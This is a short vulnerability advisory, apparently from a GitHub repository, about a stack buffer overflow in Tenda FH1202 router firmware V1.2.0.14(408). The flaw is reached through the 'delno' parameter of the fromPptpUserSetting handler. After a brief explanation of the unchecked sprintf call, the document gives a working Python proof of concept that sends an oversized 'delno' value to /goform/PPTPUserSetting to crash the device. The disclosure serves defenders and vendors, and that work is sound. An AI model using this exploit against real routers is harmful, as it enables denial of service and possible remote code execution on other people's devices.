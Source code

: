 # Tenda FH1202 fromPptpUserSetting
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the delno parameter in the fromPptpUserSetting function.

### Vulnerability details
In function fromPptpUserSetting line 17, it reads in a user-provided parameter `delno`, and the variable Var is assigned to the variable `s`. Then, the variable s is  passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_4`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/8.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPUserSetting"

data = {
    "delno": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/9.png)
